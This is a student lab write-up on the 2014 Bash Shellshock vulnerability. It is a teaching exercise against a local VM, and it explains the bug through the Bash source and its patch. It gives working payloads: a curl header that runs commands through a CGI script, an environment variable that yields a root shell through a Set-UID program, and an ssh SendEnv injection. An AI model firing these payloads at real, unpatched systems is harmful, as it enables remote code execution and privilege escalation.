



# CSUS CSC154: Extra Credit Lab (Shell Shock Attack)
[Extra Credit Lab PDF](./writeup/pdf/)

# Objective  
On September 24, 2014, a severe vulnerability in Bash was identified. Nicknamed Shellshock, this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this lab, students need to work on this attack, so they can understand the Shellshock vulnerability. The learning objective of this lab is for students to get a first-hand experience on this interesting attack, understand how it works, and think about the lessons that we can get out of this attack.

# Tasks  

## Task 1: Attack CGI programs   

### Setup
First we set up the CGI Program. The first step is to write a very simple CGI program (called myprog.cgi). It simply prints out `Hello World` using shell script.

```bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

We place the above CGI program into `/usr/lib/cgi-bin`, and set its permissions to `755`. This folder is the default CGI directory for the Apache web server.


  
**Figure 1:** Creating and setting permissions for `myprog.cgi`.


Now we can access this CGI program via our web browser by visiting `http://localhost/cgi-bin/myprog.cgi`  
  
**Figure 2:** Visiting the newly created CGI program.  

In order to demonstrate the attack, lets put a `flag.txt` in the `seed` user's `Downloads` folder. It's safe to say that this folder shouldn't be accessible remotely.  
  
**Figure 3:** Placing a flag to grab during attack.

### Attack
After the above CGI program is set up, we can launch the Shellshock attack. Our goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that we can achieve something that cannot (should not) be achievable by a remote user. 

Using *curl* we can include our exploit in the header variable. In figure 4 below we're using many header fields as examples to show that field doesn't really matter.  

```bash
curl -H "ANYTHING: () { :;}; echo; /bin/cat /home/seed/flag.txt" http://localhost/cgi-bin/myprog.cgi
```

  
**Figure 4:** Exploiting CGI with many headers, same payload.


Breaking down the *curl* command we can see that the request url `http://localhost/cgi-bin/myprog.cgi` is our vulnerable CGI application running locally. The header we've included can be called whatever we want in this case, but its value must contain the payload `() { :;}; echo; /bin/cat /home/seed/flag.txt`, where `(){ :;};` is an empty environmental variable, and where `/bin/cat /home/seed/flag.txt` can be whatever commands we wish to try and execute on the machine. We could easily include a reverse shell within this payload.

This is possible because of the way Bash handles function definitions as environmental variables,  
>Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. [4](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)

The vulnerability appears in the Bash source code [`variables.c`](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Shellshock/files/variables.c) **line 351** `parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);`.

This was *[patched](https://gist.github.com/drj11/e85ca2d7503f28ebfde8)* in the following way.

```c
	if (legal_identifier (name))
	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST|SEVAL_FUNCDEF|SEVAL_ONECMD);
``` 

An [explanation of the patch](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all) from Stack Overflow
> You can see that in the new code, a flag called SEVAL_ONECMD has been added that tells Bash to only evaluate the first command (that is, the function definition) and SEVAL_FUNCDEF to only allow function definitions.


## Task 2: Attack Set-UID programs

In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let `/bin/sh` to point to `/bin/bash` (by default, it points to `/bin/dash` in our SEED Ubuntu 12.04 VM). We do this using the following command: `sudo ln -sf /bin/bash /bin/sh`.  
  
**Figure 5:** Pointing `/bin/sh` to `/bin/bash`.
        

### Task 2A  
The following program is a Set-UID program, which simply runs the `/bin/ls -l` command. We compile this code, make it a Set-UID program, and make root be its owner.

```c
#include <stdio.h>
void main() {
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```

  
**Figure 6:** Preparing the Set-UID program.


Can we use the Shellshock vulnerability to gain the root privilege? **Yes.**  
All we need to do to exploit this is add an environmental variable with the Shellshock payload inside of it. This can be achieved via the command `export shock='(){ :; }; bash'`, in which we create an environmental variable called *shock*, add our payload, and after it *bash* gets executed.

  
**Figure 7:** Root shell via Shellshock and Set-UID program. 

When we remove this environmental variable `shock`, the program executes as "intended".  
  
**Figure 8:** Remove `shock`, environmental variable and program executes normally. 


### Task 2B 

Now, we remove the `setuid(geteuid())` statement from the above program, and repeat our attack.

  
**Figure 9:** without `setuid(geteuid())` the attack fails.

When that line is removed, the attack fails. The lab outline explains why. 
> In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. 

Looking at [`variables.c`](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Shellshock/files/variables.c) we see a conditional statement on **Line 342** `if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))`, which is 
true in this case.

Following down the code we see we see two calls to `strcpy()`. The extra command is executed before `parse_and_execute()` gets called, see below.
```c
  strcpy (temp_string, name);
  temp_string[char_index] = ' ';
  strcpy (temp_string + char_index + 1, string);
  // SHELL SHOCK !
  parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
```


The Bash info page helps to explain why this happens,  
>  Turn on privileged mode.  In this mode, the `$BASH_ENV' and `$ENV' files are not processed, shell functions are not inherited from the environment, and the `SHELLOPTS', `BASHOPTS', `CDPATH' and `GLOBIGNORE' variables, if they appear in the environment, are ignored.  If the shell is started with the effective user (group) id not equal to the real user (group) id, and the `-p' option is not supplied, these actions are taken and the effective user id is set to the real user id.  If the `-p' option is supplied at startup, the effective user id is not reset.  Turning this option off causes the effective user and group ids to be set to the real user and group ids. [Bash Man Page](http://linuxcommand.org/lc3_man_pages/bash1.html)


### Task 2C  
Another way to invoke a program in C is to use `execve()`, instead of `system()`. The following program does exactly what the program in Task 2A does. We compile the code, make it a Set-UID program that is owned by root.

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

char **environ;

int main() {
    char *argv[3];

    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;

    setuid(geteuid()); // make real uid = effective uid.
    execve(argv[0], argv, environ);
   
    return 0 ;
}
```  

  
**Figure 10:** Create Set-UID program that uses `execve()`.  


Now, when launch our Shellshock attack on this new program.  
  
**Figure 11:** Attack does not work through `execve()` function.  


We see from Figure 11 above that the attack is not effective on this source code. This is because `system()` will call the shell, in this case we've set it to `/bin/bash` where we know our Shellshock vulnerability is. The `execve()` function does not use the shell. [The function definition](https://pubs.opengroup.org/onlinepubs/9699919799/functions/execve.html) for `execve()` states, 
>The exec family of functions shall replace the current process image with a new process image. The new image shall be constructed from a regular, executable file called the new process image file. There shall be no return from a successful exec, because the calling process image is overlaid by the new process image.

Since we replaced `system()` with `execve()`, we're not able to exploit the vulnerability in `/bin/bash` for Task 2C as we were in 2A.


## Task 3: Questions

1. Other than the two scenarios described above (CGI and Set-UID program), is there any other scenario that could be affected by the Shellshock attack? We will give you bonus points if you can identify a significantly different scenario and you have verified the attack using your own experiment.
	* From what I've read, Shellshock impacts services on IRC, SSH, DHCP, SIP, SMTP, and *[more](https://github.com/mubix/shellshocker-pocs)*. Shellshock is a bash vulnerability, so if an attacker can determine that a program uses bash, and can control the value of an environmental variable that will be passed to bash, there is chance of compromise.
	* Here we have an example of code execution from an environmental variable passed via ssh, `1LC_X="() { :; }; /bin/sh -c 'whoami'" ssh testuser@localhost -o SendEnv=LC_X1`
	  
	**Figure 12:** `whoami` executed immediately upon login through environmental variable.

2. What is the fundamental problem of the Shellshock vulnerability? What can we learn from this
vulnerability?
	* The fundamental problem with Shellshock is the way bash encodes function definitions as environmental variables, which allows remote code execution. An issue with RCE in such an important piece of software as the bash shell can cause havoc in the world.
	* From Shellshock we can learn the following.
		* Very important and wide spread pieces of software can still have undiscovered vulnerabilities with catastrophic consequences.
		* Not all remote code execution exploits have complicated payloads, Shellshock is short enough that I remember it by now just after this lab.
		* The `system()` command can cause problems, as shell behavior depends on the user who run the command.
		* Use `execve()` in place of `system()` whenever possible. 


# References

1. [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
2. [OWASP: Shellshock](https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf)
3. [GitHub: CVE-2014-6271 exploit by OPSXCQ](https://github.com/opsxcq/exploit-CVE-2014-6271)
4. [Security Stack Exchange: Shell Shock Vulnerability in Source Code](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)
5. [Stack Overflow: Shellshock Behavior](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all)
6. [Linux Command: Bash Man Page](http://linuxcommand.org/lc3_man_pages/bash1.html)
7. [Stack Overflow: system() vs execve()](https://stackoverflow.com/questions/27461936/system-vs-execve)
8. [Open Group: execve()](https://pubs.opengroup.org/onlinepubs/9699919799/functions/execve.html)
9. [Github: Shell Shocker by mubix](https://github.com/mubix/shellshocker-pocs)